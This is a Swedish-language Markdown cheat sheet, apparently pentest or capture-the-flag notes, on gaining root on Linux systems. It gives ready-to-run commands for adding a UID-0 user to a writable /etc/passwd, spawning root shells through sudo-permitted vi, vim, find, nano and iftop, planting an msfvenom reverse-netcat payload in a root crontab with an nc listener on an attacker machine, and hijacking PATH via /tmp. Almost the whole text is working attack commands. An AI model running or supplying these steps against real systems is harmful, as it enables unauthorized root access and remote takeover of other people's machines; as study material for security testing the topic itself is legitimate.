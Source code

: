 # Här är några sätt att skaffa sig högre behörigheter på ett system
### /etc/passwd
om `/etc/passwd` är skrivbara kan man lätt skapa en egen root-användare genom att lägga in en rad i filen.

Skapa först en lösenordshash genom att köra följande kommando
`openssl passwd -1 -salt [sträng] [lösenord]`

t.ex 
``` bash
openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```
lägg sedan in detta i passwd filen enligt formatet `test:x:0:0:root:/root:/bin/bash`  
`Användarnamn:Lösenord:UID:GID:Hemkatalog:Skal`

Ett sätt att lägga in det i `/etc/passwd` är echo
``` bash
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Det är viktigt att man har enkelfnuttar runt texten får att det ska bli rätt i filen

### vi
Om man har sudorättigheter på `vi/vim` kan detta utnyttjas för att få rootbehörighet
Kontrollera vilka sudo-rättigheter du har genom att köra `sudo -l`
Det skulle t.ex kunna se ut så här
``` bash
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
  (root) NOPASSWD: /usr/bin/vi
```

Kör i så fall `sudo vi` och där inne `:!sh` för att få ett skal som root

### crontab
Man kan sätta upp ett remote shell via crontab om man har tillgång till en fil som kör med högre behörighet i crontab. Skapa en payload med msfvenom enligt
``` bash 
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
lägg sen in den i crontab-filen och sätt upp en netcatlyssnare på din attackmaskin
``` bash
nc -lvnp 8888
```
sen kommer crontab att koppla upp ett reverse shell när tiden för cron är inne

### path
Man kan få en användare att köra ett skript istället för det äkta linux-kommandot.
Skapa en fil i t.ex. `/tmp` 
``` bash
echo "/bin/bash" > ls
```
Sen sätter man om PATH till att först kolla i `/tmp`
``` bash
export PATH=/tmp:$PATH
```
sedan när användaren kör `ls` kommer att bash-skal att öppnas

### GTFOBins
Det finns en samling som visar hur man kan få shell/root via vanliga binärer. Kolla här för med info: https://gtfobins.github.io/  
Listar några här som exampel
#### find
Om man får köra som sudo kan man göra så gär för att bli `root`
``` bash
sudo find . -exec /bin/sh \; -quit
```
#### iftop
``` bash
iftop
!/bin/sh
```
#### nano
``` bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
#### vim
``` bash
sudo vim -c ':!/bin/sh'
```